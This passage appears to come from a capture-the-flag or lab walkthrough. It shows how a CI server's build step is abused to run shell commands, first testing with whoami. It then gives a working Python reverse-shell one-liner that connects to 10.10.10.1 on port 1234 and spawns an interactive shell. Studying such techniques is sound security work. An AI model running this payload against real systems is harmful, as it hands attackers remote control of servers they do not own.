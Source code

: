 And adding build steps in the Build Environment that will execute shell commands. I’m going to test it with a simple whoami command:

![Untitled](images/Untitled%2066.png)

We have to build the project, and after that we can check the console output of the build:

![Untitled](images/Untitled%2067.png)

So, once we have seen that it works, let’s try to obtain a reverse shell by executing this commands:

```jsx
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
